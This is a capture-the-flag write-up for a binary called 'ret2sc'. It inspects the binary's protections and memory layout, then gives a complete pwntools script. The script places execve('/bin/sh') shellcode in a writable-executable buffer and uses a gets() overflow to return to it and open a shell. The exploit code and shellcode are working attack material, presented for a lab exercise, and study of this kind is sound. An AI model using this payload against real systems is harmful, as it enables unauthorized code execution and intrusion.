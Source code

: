 1. `file ret2sc` to take a look.
```bash
$ file ret2sc
ret2sc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, 
BuildID[sha1]=b83f13f0a84fdae7a5bc54d828d0e4ea15575d6d, not stripped
```

2. gdb checksec to check the protection of this program.
```bash
$ gdb-peda ret2sc
Reading symbols from ret2sc...
(No debugging symbols found in ret2sc)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

3. `r2 ret2sc`, there's nothing special.
```bash
$ r2 ret2sc
[0x00400540]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400540]> afl
0x00400540    1 41           entry0
0x00400500    1 6            sym.imp.__libc_start_main
0x00400570    4 50   -> 41   sym.deregister_tm_clones
0x004005b0    4 58   -> 55   sym.register_tm_clones
0x004005f0    3 28           sym.__do_global_dtors_aux
0x00400610    4 38   -> 35   entry.init0
0x00400720    1 2            sym.__libc_csu_fini
0x00400724    1 9            sym._fini
0x004006b0    4 101          sym.__libc_csu_init
0x00400636    1 114          main
0x00400520    1 6            sym.imp.setvbuf
0x004004e0    1 6            sym.imp.printf
0x004004f0    1 6            sym.imp.read
0x00400510    1 6            sym.imp.gets
0x004004b0    3 26           sym._init
0x00400530    1 6            sym..plt.got
[0x00400540]>
```

4. `s main`, `VV`. We saw there are two input, one is "name", another is "try your best:". the first will be put at **0x601080**, second will be put at **var_20h(rbp-0x20)**.

![Image](https://i.imgur.com/kkBkEOG.png)

5. by the result above, we need to find the place that we can inject our shellcode, use gdb-peda.
`gde-peda ret2sc`, `b main`, `r`

```bash
$ gdb-peda ret2sc
Reading symbols from ret2sc...
(No debugging symbols found in ret2sc)
gdb-peda$ b main
Breakpoint 1 at 0x40063a
gdb-peda$ r
```

then `vmmap`, we found that address between 0x601000-0x602000 have permission of rwx, and our input "name" (0x601080) is in this range. so we can inject our shellcode here.

![Image](https://i.imgur.com/WQSd5Zm.png)


6. write the exploit script, shellcode can be found on the [exploit-db](https://www.exploit-db.com/shellcodes) website.

```python
from pwn import *

context.arch = "amd64"

ip = "120.114.62.211"
port = 2122

# r = remote(ip,port)
r = process("./ret2sc")

shellcode =\
"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

r.sendafter(":", shellcode)
# r.recvuntil(':')
# r.sendline(shellcode)

shellcode_address = 0x601080
r.recvuntil(':')
r.sendline(b"A"*0x28 + p64(shellcode_address))

r.interactive()
```

7. run the code and then we can get the shell, find the flag and print it.